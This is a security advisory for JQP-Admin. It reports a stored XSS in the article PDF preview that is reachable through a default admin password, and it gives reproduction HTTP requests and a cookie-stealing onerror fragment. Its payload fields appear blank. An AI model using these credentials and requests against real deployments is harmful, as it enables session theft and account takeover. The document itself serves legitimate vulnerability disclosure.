








## **Vulnerability Description**

JQP-Admin (Low-Code Development Platform, master branch) contains a Stored Cross-Site Scripting (XSS) vulnerability in the "CRM Customer → Article" module. The `pdfView` interface in `ArticleController.java#L34` concatenates the article's `content` field directly into the `<body>` tag and returns it without HTML escaping. An attacker can inject malicious JavaScript code into the article content; when a user visits the PDF preview page, the script will be executed in the user's browser context, leading to severe security risks such as the theft of session credentials.

**GitHub Repository:** https://github.com/TedLiangHK/jqp-admin

**Gitee Repository:** https://gitee.com/dushan1980/jqp-admin

## **Vulnerability Analysis**

**1. Default Weak Password Vulnerability**

The system contains a default administrator account with a weak password (`admin` / `1`) and does not enforce a password change upon the first login or initial configuration. An attacker can directly exploit this weak password to log into the backend system and obtain a legitimate authenticated state (Cookie/Token). This provides a prerequisite for the attacker to access the "CRM Customer → Article" module in the backend and persist malicious XSS payloads into the database.

**2. XSS Vulnerability (Root Cause)**

The system has security flaws in both user input reception and frontend page rendering. The `CommonController.saveOrUpdate` interface receives the `content` parameter without any security filtering, allowing malicious scripts to be stored directly in the database. Subsequently, when rendering the page, the `ArticleController.pdfView` interface directly concatenates the `content` field into the `<body>` tag and returns it without any HTML entity encoding. An attacker can construct a malicious script (e.g., ``). When the user's browser parses the page, the script is executed as-is, resulting in a severe Stored Cross-Site Scripting (XSS) attack.

com.jqp.admin.page.controller.CommonController#saveOrUpdate



com.jqp.admin.page.controller.ArticleController#pdfView



**Exploitation Path**

```
POST /admin/common/article/saveOrUpdate
  body.content = ""
│
▼
CommonController.saveOrUpdate(@RequestBody Map obj, @PathVariable formCode)   L54-58
  → formService.get("article") → tableName = "article"
  → obj contains content (from @RequestBody, no XSS filter)
│
▼
jdbcService.saveOrUpdate(obj, "article")   MysqlJdbcServiceImpl
  → insert into article (content, ...) values (?, ...)
  → content stored as-is
│
────── trigger ──────
│
GET /admin/article/pdfView/{id}  
│
▼
ArticleController.pdfView(@PathVariable id)   L27-35
  → jdbcService.getById("article", id) → content retrieved
  → StrUtil.format("<body>{}</body>", content)
  → returns raw HTML   XSS Sink L34
│
▼
browser executes onerror=alert(document.cookie)
```


## **Vulnerability Reproduction**

**Step 1: Log in to the system using the default weak password**

Visit the JQP-Admin system login page, enter the default weak password account `admin` and password `1`, and click login. Successfully enter the system backend management panel.





```
POST /admin/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 38
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/lyear_pages_login.html?t=1794575525079
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=875DD67F213BD56CD18CC15FAF0F3D9E
Connection: keep-alive

username=admin&password=1&captcha=gczz
```

**Step 2: Locate and intercept the form submission request**

In the left navigation bar, navigate to the "CRM Customer → Article" page and click the "Add" or "Edit" button. After filling in the relevant information, click Save and use a packet capture tool such as Burp Suite to intercept the HTTP request.
Observe that the request is `POST /admin/common/article/saveOrUpdate` and the request body contains the `content` parameter.



**Step 3: Construct Payload and verify the injection result**

Modify the `content` parameter in the request body to the XSS Payload: ``, then send the request and save it. Access the PDF preview page of the article (the `pdfView` interface), and the browser successfully pops up the current user's Cookie, proving that the `content` field contains a Stored XSS vulnerability.



```
POST /admin/common/article/saveOrUpdate HTTP/1.1
Host: localhost:8080
Content-Length: 125
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/crud/article?v=1794654436279
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3581AA45BBCA361D81E36BC6A38E650A; token=a669c4fe-487d-4155-8eb6-7ef8ffc4b08b
Connection: keep-alive

{
  "title": "测试",
  "content": "",
  "updateTime": "2026-11-14 00:00:00"
}
```




